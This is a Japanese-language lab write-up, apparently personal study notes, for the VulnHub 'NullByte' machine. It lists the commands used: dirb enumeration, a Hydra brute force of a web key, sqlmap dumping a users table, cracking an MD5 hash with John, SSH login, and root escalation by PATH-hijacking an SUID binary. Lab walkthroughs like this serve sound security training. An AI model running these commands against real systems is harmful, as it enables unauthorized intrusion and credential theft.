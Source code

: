 ## NullByte  760~
### ポートスキャンまでは同じ
- 80,111,777,4474

### Webサイトを見る
- functionKeyの12を押すとソースコードが見れるので、チェックする。ここには画像であるmain.gifぐらいしかないが、、

### dirbで使うコンテンツ辞書を見てみる
- `wc /usr/share/dirb/wordlists/*.txt`
- ひとつ具体的に見てみる
- `head /usr/share/dirb/wordlists/small.txt`
```
0
00
```
- これは`http://192.168.56.108/0`,`http://192.168.56.108/00`のように順に入っていく
### dirb
- gobusterみたいに隠しサイトを見つけてくるもの
- `dirb http://$IP /usr/share/dirb/wordlists/small.txt`
- phpMyAdmin,javascript,uploadsディレクトリが見つかる、今はどうしようもないので後で使う
### 怪しい画像ファイルを調査する
- `wget http://$IP:80/main.gif`
- ファイルを調べる
  - `strings main.gif` または `exiftool main.gif`の両方あるが、後者の方が有能。exiftoolコマンドは画像などのメタデータを調べるコマンド
  - 謎のコメントが得られる`kzMb5nVYJw`

### Webサイト 
- さっきのを最後につけてサイトを見る

### SecListをダウンロードする
- パスワードの辞書
- `cd ~/vulnhub`
- `wget https://github.com/danielmiessler/SecLists/archive/refs/heads/master.zip`
- `unzip master.zip`

### Hydraで攻略
- WebサイトのHTMLソースからindex.phpのkeyにパスワードが送信されていることがわかる
- `hydra -l test -P ~/vulnhub/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $IP 
http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"` 
  - ここでは１箇所しか入力するところがないので、ユーザ名は適当なtestという名前を入れている
- パスワードがわかる `elite`
- webサイトにパスワードがあるので、入力する

### 得られたkeyで認証する
- search for usernamesページ
```html
<p>Search for usernams: </p>
<hr>
<form action="420search.php" method="get">
Enter username:<br>
<input type="text" name="usrtosearch">
</form>
```
- 空のまま`Enter`を押すと、とりあえずuser名がわかる
  - `ramses` `isis` 
 
### 認証を突破する(SQLMap)
- データベースの中身を確認する
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" --dbs`
- sethのデータベースの中身を見る
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass --dump`

- ramsesのpassをコピーする

### Base64でデコードする
- 上でコピーしたのがなぜBase64を使うのはよくわからん。多分どこかに書いてあるのだと思うが、、
- `echo -n "ペースト=" | base64 -d`
  - ペーストした最後に`=`イコールをつける、理由は6の座学にあり
  - うまく変換できていれば、hash.txtに保存する
- `echo -n "ペースト=" | base64 -d > hash.txt`  

### パスワードの解析
- `sudo john --format=raw-md5 hash.txt`
  - hash.txtに書き込んだのはmd5という形式の暗号化である

### ssh
- `ssh ramses@192.168.56.108 -p 777`
  - ポート番号 

### システム内を探索する
- フォルダを探索する
- `sudo -l`
- SUIDを探す
- `cat .bash_hitory`
  - 謎のコマンドを実行していることがあるので、大きなヒントになる 

### 怪しいプログラムを調べる
- `cd /var/www/backup`
- 謎のコマンドが実行されている `./procwatch`
- これはどこかで見たことのあるコマンド?これは完全にバグで、これを利用する
- `ls -al` SUIDファイルであることがわかる
- `echo $PATH`
  - PATHは左から順に読み込まれるので、/tmpディレクトリをはじめに置いて、そこに偽のpsコマンド(ファイル)をおく 
- psコマンドをどこからでも呼べるためにパスを通す
  - `export PATH=/tmp:$PATH`
- `echo $PATH`
- paファイルにshを実行できるように書き込む
  - `echo "/bin/sh" > /tmp/ps`
- `chmod 777 /tmp/ps`
- ./procwatchを実行すると、裏でpsファイルが呼ばれて、そこにはshが書かれているので、shが実際は実行される
  - `./procwatch` 
### 権限の昇格
- `cd /root`
- `cat proof.txt`

